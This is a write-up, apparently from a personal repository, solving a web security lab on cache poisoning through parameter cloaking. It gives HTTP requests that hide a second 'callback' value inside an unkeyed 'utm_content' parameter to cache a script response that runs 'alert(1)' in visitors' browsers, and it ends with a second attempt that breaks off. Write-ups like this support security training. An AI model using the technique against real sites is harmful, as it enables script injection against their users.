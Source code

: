 # Web Cache Poisoning
## Parameter cloaking
![Awesome Badges](https://img.shields.io/badge/level-practitioner-blue)

This lab is vulnerable to web cache poisoning because it excludes a certain parameter from the cache key. 
There is also inconsistent parameter parsing between the cache and the back-end.

A user regularly visits this site's home page using Chrome.

To solve the lab, use the parameter cloaking technique to poison the cache with a response that executes `alert(1)` in the victim's browser.

#### Solution

Navigate to Home page and check HTTP history.

Notice:

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
```

Using the `utm_content` from previous lab we can try something like this:

```http
GET /?utm_content=123&callback=setCountryCookie HTTP/2
```

Now this will be cacheable so it's not useful like this. 

However, running these two show that first cache the other:

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
GET /js/geolocate.js?callback=setCountryCookie&utm_content=123;callback=runAlert HTTP/2
```

Just change the payload to:

```http
GET /js/geolocate.js?callback=setCountryCookie&utm_content=123;callback=alert(1) HTTP/2
```

This solves the lab.

Keep in mind admin visits once per minute and cache expires every 35 sec, so you may need to re-poison.

---

#### My Complicated Solution that didn't work
Navigate to Home page and check HTTP history.

Notice:

```
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
```

